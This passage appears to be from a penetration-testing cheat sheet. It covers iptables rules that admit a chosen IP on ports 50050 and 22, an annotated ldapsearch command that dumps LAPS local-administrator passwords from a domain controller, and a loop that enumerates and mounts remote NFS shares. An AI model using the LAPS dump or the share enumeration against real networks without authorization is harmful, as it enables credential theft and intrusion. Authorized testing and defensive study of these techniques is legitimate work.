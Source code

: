 ```
    /sbin/iptables -I INPUT -p tcp --dport 50050 -s <ip address> -j ACCEPT
    /sbin/iptables -I INPUT -p tcp --dport 22 -s <ip address> -j ACCEPT
    service netfilter-persistent save
    iptables -L -v
```

_Delete rule_

```
    iptables -D INPUT -i eth0 -p tcp --dport 443 -j ACCEPT
```

### ldapsearch

Obtain LAPS passwords for domain computers using the linux based ldapsearch tool

[Dump Laps Passwords with LDAPSearch by Rob Fuller](https://room362.com/post/2017/dump-laps-passwords-with-ldapsearch/)

```
    ldapsearch -x -h 192.168.80.10 -D "helpdesk" -w ASDqwe123 -b "dc=sittingduck,dc=info" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd

    -x - Use basic authentication
    -h 192.168.80.10 - Connect to the Domain Controller for ldap
    -D "helpdesk" -w ASDqwe123 - Login as the helpdesk user, with the password ASDqwe123
    -b "dc=sittingduck,dc=info" - This loads the base LDAP object of the entire domain.
    "(ms-MCS-AdmPwd=*)" - Filter out any objects that I can’t see a value for ms-MCS-AdmPwd for. (If you have rights as that user to see even one Administrator password, this will show it.)
    ms-MCS-AdmPwd - Only show me the ms-MCS-AdmPwd object (which by default includes the object name and DN so you will still know what host it belongs to)
```

### NFS

List NFS Mounts on remote host

```
    showmount -e <ipaddr>
```

Check NFS share counts in a loop

```
    #cat nfs.results.msf |grep -|cut -d'-' -f2|cut -d' ' -f2,5|sed 's/ /:/g'

    for server in $(cat nfs.shares); do
        echo "[*] Checking $server"
        mount -o nolock,nfsvers=3 $server /mnt/n4s_backup
        ls /mnt/n4s_backup
        umount /mnt/n4s_backup
    done
```

### Shells
